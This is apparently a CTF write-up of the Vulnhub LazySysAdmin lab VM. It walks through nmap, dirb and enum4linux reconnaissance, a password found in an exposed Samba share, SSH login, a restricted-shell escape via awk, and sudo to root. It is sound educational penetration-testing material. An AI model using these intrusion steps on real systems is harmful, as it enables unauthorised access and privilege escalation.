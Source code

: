```yaml
---
    title: LazySysAdmin Walkthrough
    date: 2019-01-03
    excerpt: "LazySysAdmin CTF Write-up and Tutorial"
    tags: [ctf, cybersec, nmap]
---
```


LazySysAdmin is a beginner-friendly CTF that showcases several classic mistakes some system administrators can make. The title is fitting to say the least.

VM can be downloaded at [Vulnhub](https://www.vulnhub.com/entry/lazysysadmin-1,205/).

## My Setup
I'll be attacking this in Kali Linux from VirtualBox on Windows. As with all the other CTFs I've done, they're on a shared NATNetwork with Kali.

**IP Range:** The IP range I have set for the NATNetwork is 10.0.2.0/24.

## VM Discovery
As usual, a quick Nmap ping scan reveals the target.

```bash
root@kali:~# nmap -sP 10.0.2.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-02 16:40 EST
...
MAC Address: 08:00:27:7F:98:2D (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.5
Host is up (0.00023s latency).
...
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.06 seconds
```

.5 is the LazySysAdmin VM.

## Port Scanning
Poking a system from afar is the basis for CTFs. Oh Oracle Nmap, reveal to us the target's secrets...

```bash
root@kali:~# nmap -p- -sV -T4 -sS 10.0.2.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-02 16:42 EST
Nmap scan report for 10.0.2.5
Host is up (0.00011s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
MAC Address: 08:00:27:FE:F5:12 (Oracle VirtualBox virtual NIC)
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
```

Anytime there's a webserver (Apache, Nginx, etc.) present, it's best to scan it ASAP. I like running both Dirbuster and Nikto.

## Web busting
Dirb quickly reveals a few interesting directories. I canceled the scan early (since phpmyadmin has lots of subdirectories).

```bash
root@kali:~# dirb http://10.0.2.5
...
---- Scanning URL: http://10.0.2.5/ ----
==> DIRECTORY: http://10.0.2.5/apache/
+ http://10.0.2.5/index.html (CODE:200|SIZE:38)
+ http://10.0.2.5/info.php (CODE:200|SIZE:77193)
==> DIRECTORY: http://10.0.2.5/javascript/
==> DIRECTORY: http://10.0.2.5/old/
==> DIRECTORY: http://10.0.2.5/phpmyadmin/
+ http://10.0.2.5/robots.txt (CODE:200|SIZE:92)
+ http://10.0.2.5/server-status (CODE:403|SIZE:288)
==> DIRECTORY: http://10.0.2.5/test/
==> DIRECTORY: http://10.0.2.5/wordpress/
==> DIRECTORY: http://10.0.2.5/wp/
```

Going through these one by one.

| Directory | Findings |
| --------- | -------- |
| /apache/ | Empty folder |
| /index.html | Looks like a generic fill-in-the-blank template homepage. |
| /info.php | phpinfo() page |
| /javascript/ | 403 Error |
| /old/ | Empty directory |
| /phpmyadmin | PHPMyAdmin |
| /robots.txt | Reveals a few more directories: /old/, /test/, /TR2/, and /Backnode_files |
| /server-status | 403 |
| /test/ | Empty |
| /wordpress/ | A wordpress site. Screenshot below. |
| /wp/ | Empty |

From info.php, we can see that PHP is version 5.5.9-1. There's a lot of information on this page, from PHP variables to extension data, but I'm not finding anything super interesting.

## Wordpress
Running wpscan is always a good idea (if going loud is fine) on a target WP installation. However, this one seems pretty barren. Upon visiting in a browser, we get a single post like so:

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/lazysys/wordpress.PNG" alt="">
  <figcaption>The one post, by togie.</figcaption>
</figure>

Might be a username.

## Enum4Linux
Another scanning script, this one checks things like linux user IDs, file shares, printer information, etc. Can't recall the last time I ran into a printer connected to a server, but hey.

```bash
root@kali:~# enum4linux 10.0.2.5
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Jan  3 10:18:44 2019
...
=====================================
|    Share Enumeration on 10.0.2.5    |
=====================================

   Sharename       Type      Comment
   ---------       ----      -------
   print$          Disk      Printer Drivers
   share$          Disk      Sumshare
   IPC$            IPC       IPC Service (Web server)
Reconnecting with SMB1 for workgroup listing.

   Server               Comment
   ---------            -------

   Workgroup            Master
   ---------            -------
   WORKGROUP            LAZYSYSADMIN

[+] Attempting to map shares on 10.0.2.5
//10.0.2.5/print$	Mapping: DENIED, Listing: N/A
//10.0.2.5/share$	Mapping: OK, Listing: OK
//10.0.2.5/IPC$	[E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
...
```

Mapping and listing OK? We need to check this out.

Opening the share in the file manager via smb://10.0.2.5/share$ reveals the following:

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/lazysys/directory.PNG" alt="">
  <figcaption>Samba share listing.</figcaption>
</figure>

Judging by info.php, index.html, the wordpress folder, I'd say this the webroot directory. We haven't seen deets.txt before.

```bash
root@kali:~# curl http://10.0.2.5/deets.txt
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
```

So our web admin hates multiple passwords and has decided on 12345. The todolist is too little, too late.

```bash
root@kali:~# curl http://10.0.2.5/todolist.txt
Prevent users from being able to view to web root using the local file browser
```

Let's try the credentials from wordpress and deets.txt (togie:12345).

```bash
root@kali:~# ssh togie@10.0.2.5
##################################################################################################
#                                          Welcome to Web_TR1                                    #
#                             All connections are monitored and recorded                         #
#                    Disconnect IMMEDIATELY if you are not an authorized user!                   #
##################################################################################################

togie@10.0.2.5's password:
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

 System information disabled due to load higher than 1.0

133 packages can be updated.
0 updates are security updates.

togie@LazySysAdmin:~$
```

And we're in as togie. Let's see if we can't get root.

...One problem, though. We're in a restricted shell. (An odd change of pace here)

Kudos to [SANS Institute](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells) for the restricted shell guide. The old Vi shell spawn didn't work, but we can run awk scripts.

```bash
togie@LazySysAdmin:~$ cd /
-rbash: cd: restricted
togie@LazySysAdmin:~$ /bin/sh
-rbash: /bin/sh: restricted: cannot specify `/' in command names
togie@LazySysAdmin:~$ export PATH=/bin:/usr/bin:$PATH
-rbash: PATH: readonly variable
togie@LazySysAdmin:~$ awk 'BEGIN {system("/bin/sh")}'
$ whoami
togie
```

We can check if anyone has sudo access with the getent command:

```bash
$ getent group sudo
sudo:x:27:togie
$ sudo /bin/sh
[sudo] password for togie:
# whoami
root
```

And that's that. Of course, we could wreak havoc on this system, but we've accomplished what we set out to do here.
